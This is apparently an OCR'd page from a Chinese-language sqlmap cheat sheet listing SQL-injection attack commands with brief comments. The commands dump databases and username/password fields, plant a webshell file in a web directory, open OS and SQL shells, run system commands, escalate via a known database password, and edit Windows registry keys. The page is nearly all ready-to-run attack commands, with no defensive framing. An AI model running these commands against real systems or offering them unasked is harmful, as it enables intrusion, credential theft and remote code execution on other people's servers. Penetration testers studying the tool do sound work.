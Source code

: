 ```bash
sqlmap -u URL --current-db          # 获取当前数据库
sqlmap -u URL --dbs                 # 枚举所有数据库
sqlmap -u URL -f                    # 检查 DBMS 版本
sqlmap -u URL --is-dba              # 判断当前用户是否是 dba
sqlmap -u URL --users               # 列出数据库管理系统用户
sqlmap -u URL --privileges          # 枚举 DBMS 用户权限
sqlmap -u URL --passwords           # 获取当前数据库密码

sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns           # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all            # 列出所有数据库,所有表内容
```

**搜索字段**

```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password  # 在 dedecms 数据库中搜索字段 admin 或者 password.
```

**读取与写入文件**

首先找需要网站的物理路径,其次需要有可写或可读权限.

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 (物理路径)
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 (mssql xp_shell)
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注 : mysql 不支持列目录,仅支持读取单个文件.sqlserver 可以列目录,不能读写文件,但需要一个 xp_dirtree 函数
```

**提权**

```bash
sqlmap -u URL --sql-shell                       # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell                        # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig                 # 在注入点直接执行命令
sqlmap -d "mssql://sa:sql123456@ip:1433/master" --os-shell  # 知道数据库密码后提权成为交互式系统shell
```

**对 Windows 注册表操作**

```bash
--reg-read                                      # 读取注册表值
--reg-add                                       # 写入注册表值
--reg-del                                       # 删除注册表值
--reg-key,--reg-value,--reg-data,--reg-type     # 注册表辅助选项

sqlmap -u URL --reg-add --reg-key="HKEY_LOCAL_MACHINE\SOFTWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1
```

